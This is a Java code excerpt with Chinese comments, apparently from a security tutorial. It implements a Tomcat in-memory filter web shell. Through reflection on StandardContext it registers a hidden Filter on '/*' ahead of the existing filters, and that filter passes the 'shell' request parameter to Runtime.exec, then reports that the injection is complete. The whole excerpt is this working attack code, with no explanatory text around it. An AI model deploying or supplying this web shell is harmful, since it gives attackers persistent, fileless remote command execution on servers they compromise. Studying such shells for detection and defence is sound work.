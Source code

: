 ```
    //类型转换standardContext，标准的web应用程序上下文
    StandardContext standardContext = (StandardContext) applicationContextContext.get(applicationContext);


    //创建filterConfigs
    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
    String filterName = "Filter";
    if (hashMap.get(filterName)==null){
        //构造filter对象
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                System.out.println("filter初始化");
            }
            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                servletRequest.setCharacterEncoding("utf-8");
                servletResponse.setCharacterEncoding("utf-8");
                servletResponse.setContentType("text/html;charset=UTF-8");
                filterChain.doFilter(servletRequest,servletResponse);
                System.out.println(servletRequest.getParameter("shell"));
                Runtime.getRuntime().exec(servletRequest.getParameter("shell"));
                System.out.println("执行过滤");
            }
            @Override
            public void destroy() {
            }
        };
        //构造filterDef对象
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        //将过滤器的配置信息添加到应用程序上下文中
        standardContext.addFilterDef(filterDef);


        //构造filterMap对象
        FilterMap filterMap = new FilterMap();
        //添加映射的路由为所有请求
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        //将上述设置好的过滤器映射对象添加到 StandardContext 中，并将其插入到已有的过滤器映射之前
        standardContext.addFilterMapBefore(filterMap);


        //构造filterConfig
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);


        //将filterConfig添加到filterConfigs中，即可完成注入
        hashMap.put(filterName,applicationFilterConfig);
        response.getWriter().println("注入完成");
    }
```